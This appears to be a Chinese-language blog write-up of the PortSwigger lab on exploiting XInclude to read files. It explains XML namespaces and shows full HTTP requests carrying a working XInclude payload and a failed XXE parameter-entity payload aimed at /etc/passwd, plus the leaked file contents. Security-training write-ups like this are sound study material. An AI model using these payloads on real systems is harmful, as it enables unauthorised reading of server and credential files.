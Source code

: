```yaml
---
layout: post
title: "Exploiting XInclude to retrieve files"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_XXE
author: ""
tags: ['PortSwigger_Lab', 'XXE']
---
```






# Exploiting XInclude to retrieve files


教學:
https://www.youtube.com/watch?v=15LztMwbRR8&list=PLgZqc0esdeS8TkLr6T6EkDb1AfOz9VvkL&index=10


xinclude:
https://www.anquanke.com/post/id/156227
https://www.anquanke.com/post/id/156227?from=timeline
http://drops.xmd5.com/static/drops/tips-5290.html
https://zhuanlan.zhihu.com/p/389550468

xmlns:
https://www.w3schools.com/xml/xml_namespaces.asp
https://www.twblogs.net/a/5c1f9466bd9eee16b3daabe4










```
This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.

Because you don't control the entire XML document you can't define a DTD to launch a classic [XXE](https://portswigger.net/web-security/xxe) attack.

To solve the lab, inject an `XInclude` statement to retrieve the contents of the `/etc/passwd` file.

#### Hint

By default, `XInclude` will try to parse the included document as XML. Since `/etc/passwd` isn't valid XML, you will need to add an extra attribute to the `XInclude` directive to change this behavior.

該實驗室具有“檢查庫存”功能，該功能將用戶輸入嵌入到隨後解析的服務器端 XML 文檔中。

因為您無法控制整個 XML 文檔，所以您無法定義 DTD 來發起經典的 [XXE](https://portswigger.net/web-security/xxe) 攻擊。

要解決實驗室問題，請注入 `XInclude` 語句來檢索 `/etc/passwd` 文件的內容。


＃＃＃＃ 暗示

默認情況下，`XInclude` 會嘗試將包含的文檔解析為 XML。 由於 `/etc/passwd` 不是有效的 XML，您需要在 `XInclude` 指令中添加一個額外的屬性來更改此行為。



```



完全不知道這題要幹嘛，直接看解答



solution:
```


1.  Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.


2.  Set the value of the `productId` parameter to:
    
    <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>




1. 訪問一個產品頁面，點擊“查看庫存”，在 Burp Suite 中攔截生成的 POST 請求。

2.將`productId`參數的值設置為：
    
     <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>



```






總結一下:

xmlns = xml name space 

```
 <foo xmlns:xi="http://www.w3.org/2001/XInclude">
```

foo 元素裡面說了， 只要是命名空間為xi 的元素為一識別URI  是 U R I  不是 url 


### 統一資源標識符 URI

https://zh.wikipedia.org/zh-tw/%E7%BB%9F%E4%B8%80%E8%B5%84%E6%BA%90%E6%A0%87%E5%BF%97%E7%AC%A6#:~:text=%E7%B5%B1%E4%B8%80%E8%B3%87%E6%BA%90%E6%A8%99%E8%AD%98%E7%AC%A6%EF%BC%88%E8%8B%B1%E8%AA%9E,%E7%82%BA%E9%9D%9E%E6%AD%A3%E5%BC%8F%E7%9A%84%E7%B6%B2%E5%9D%80%E3%80%82


雖然我們可以
```
<xi:table> 2 <xi:table>
<xi:chair> 4 <xi:chair>

```

但考慮到描述得不夠仔細，還是用了一個特別長的 xmlns 
這樣做，是為了唯一性，怕太簡單的ID 跟別人重複使用。

定義了 xi 的URI 後
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
```

再來看 include 元素
```
<xi:include parse="text" href="file:///etc/passwd"/>
```

其實相當於:

```
<http://www.w3.org/2001/XInclude:include parse="text" href="file:///etc/passwd"/>
```

這樣很長很難看。


include 中有兩個重要的屬性:

1.href
請求一個URL

2.parse
response 解析成什麼格式



重點就是 include 元素 會去包含一個文件，然後 response 給我們。


這題會用 xinclude 的原因是:


注入時，

```http

POST /product/stock HTTP/1.1
Host: 0a97009e03a1973cc094375200b80099.web-security-academy.net
Cookie: session=p8Qd8Y4aIpnJ3HKuCSNpykKPHGkuN1w4
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: */*
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0a97009e03a1973cc094375200b80099.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 160
Origin: https://0a97009e03a1973cc094375200b80099.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

productId=<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>"> 
%eval; 
%exfil;
&storeId=1


```

response:

Entities 外部實體無法用
```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 47

"Entities are not allowed for security reasons"
```





換上payload
```http
POST /product/stock HTTP/1.1
Host: 0a97009e03a1973cc094375200b80099.web-security-academy.net
Cookie: session=p8Qd8Y4aIpnJ3HKuCSNpykKPHGkuN1w4
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: */*
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0a97009e03a1973cc094375200b80099.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 132
Origin: https://0a97009e03a1973cc094375200b80099.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

productId=
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>

&storeId=1




```


至於 URI 為啥是http://www.w3.org/2001/XInclude ，這我也不懂，可能題目就要這個。

response:
```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 1281

"Invalid product ID: 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin


"
```


成功。